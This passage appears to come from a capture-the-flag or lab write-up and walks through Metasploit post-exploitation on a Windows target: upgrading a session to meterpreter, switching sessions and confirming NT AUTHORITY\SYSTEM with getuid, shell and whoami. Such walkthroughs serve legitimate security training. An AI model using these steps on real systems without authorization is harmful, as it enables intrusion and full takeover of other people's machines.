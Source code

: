- `show options`
- SESSION

![](2023-03-16-07-03-27.png)

Set the required option, you may need to list all of the sessions to find your target here. 

- `set session 1`

Run! If this doesn't work, try completing the exploit from the previous task once more.

- `run`

![](2023-03-16-07-07-08.png)

Once the meterpreter shell conversion completes, select that session for use.

- `sessions`
- `sessions -i 2`

![](2023-03-16-07-12-00.png)

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

- `getuid`
- `shell`
- `whoami`
